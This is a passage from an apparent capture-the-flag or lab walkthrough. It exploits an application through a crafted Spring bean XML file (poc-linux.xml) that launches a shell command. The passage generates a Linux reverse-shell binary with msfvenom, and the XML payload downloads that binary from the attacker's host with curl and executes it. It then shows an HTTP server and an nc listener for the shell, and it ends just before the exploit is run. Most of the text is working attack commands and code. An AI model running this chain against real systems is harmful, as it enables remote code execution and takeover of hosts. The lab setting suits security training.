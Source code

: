    According to the instructions, we have to first generate a payload using `msfvenom`:

    ```bash
    # generate payload
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=1337 -f elf -o test.elf
    # give executable perms to the payload
    $ sudo chmod +x test.elf
    ```

    Then we have to modify the `poc-linux.xml` file and input our socket in:

    ```bash
    $ cat poc-linux.xml
    <?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="
    http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>sh</value>
                <value>-c</value>
                <!-- The command below downloads the file and saves it as test.elf -->
                <value>curl -s -o test.elf http://10.10.14.4:8000/test.elf; chmod +x ./test.elf; ./test.elf</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
    ```

    Next, we have to start a Python HTTP server from the directory that the `test.elf` file resides and open up a listener:

    ```bash
    # starting an HTTP server
    $ Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    ```

    ```bash
    # starting a listener
    nc -lvnp 1337
    listening on [any] 1337 ...
    ```

    All that's left is to run the exploit:
